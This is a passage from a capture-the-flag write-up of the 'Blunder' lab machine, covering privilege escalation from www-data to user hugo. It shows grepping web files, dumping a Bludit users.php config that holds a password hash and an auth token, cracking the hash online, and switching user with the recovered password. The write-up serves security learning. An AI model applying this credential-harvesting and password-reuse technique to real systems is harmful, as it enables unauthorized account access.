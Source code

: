 ## Elevating Priv: www-data -> hugo

I found `user.txt` inside folder of user `hugo` and was readable by hugo only.

Heading to `/var/www/`, I searched for anything related to user hugo and found a database config file with some hash in it.

```shell
www-data@blunder:/var/www$ find * | grep -ir hugo
bludit-3.10.0a/bl-content/databases/users.php:        "nickname": "Hugo",
bludit-3.10.0a/bl-content/databases/users.php:        "firstName": "Hugo",
find: 'standard output': Broken pipe
find: write error
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
In todo.txt, we saw a note saying remove old users. Seems Admin decided to update the CMS but forgot to remove old config files.
- Password Hash: `faca404fd5c0a31cf1897b823c695c85cffeb98d`

Using [**Crackstation**](https://crackstation.net/) we have the cracked hash as `Password120`

![crack](/assets/img/Posts/Blunder/crack.png)

### SU - hugo

Using `Password120` we can `su` to user hugo:

```shell
www-data@blunder:/var/www$ su hugo -
su hugo -
Password: Password120
hugo@blunder:/var/www$
```
#### Grabbing user.txt
